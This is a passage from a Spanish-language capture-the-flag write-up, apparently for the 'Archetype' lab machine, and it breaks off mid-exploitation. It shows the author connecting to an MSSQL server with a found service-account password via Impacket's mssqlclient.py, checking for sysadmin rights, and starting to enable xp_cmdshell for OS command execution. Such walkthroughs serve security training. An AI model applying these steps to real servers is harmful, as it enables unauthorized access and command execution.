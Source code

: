 Aqui tenemos el contenido del archivo.

Tenmos credenciales por lo que vamos a intentar conectarnos al Servidor SQL usando mssqlclient.py de Impacket

Nos descargamos el archivo con wget:

```bash
wget https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/mssqlclient.py
```

Ejecutamos la herramienta :

```bash
❯ python3 mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@10.129.50.163 -windows-auth
```

Ahora podemos utilizar la función IS_SRVROLEMEMBER para comprobar si el usuario actual de SQL tiene privilegios de sysadmin (nivel más alto) en el Servidor SQL.

![img](/assets/img/post/archetype/sql.png) 

Esto nos devuelve el valor 1, por los que si tenemos privilegios.

## Explotacion
Vamos a usar xp_cmdshell.

xp_cmdshell es una función de Transact-SQL (T-SQL) en Microsoft SQL Server que permite a los usuarios ejecutar comandos del sistema operativo desde dentro de una consulta SQL. Básicamente, xp_cmdshell se utiliza para ejecutar comandos de shell en el sistema operativo desde una sesión de SQL Server.

Primero nesecitamos configurarlo, usamos los siguientes comandos:
```bash
EXEC sp_configure 'Show Advanced Options', 1; 
```
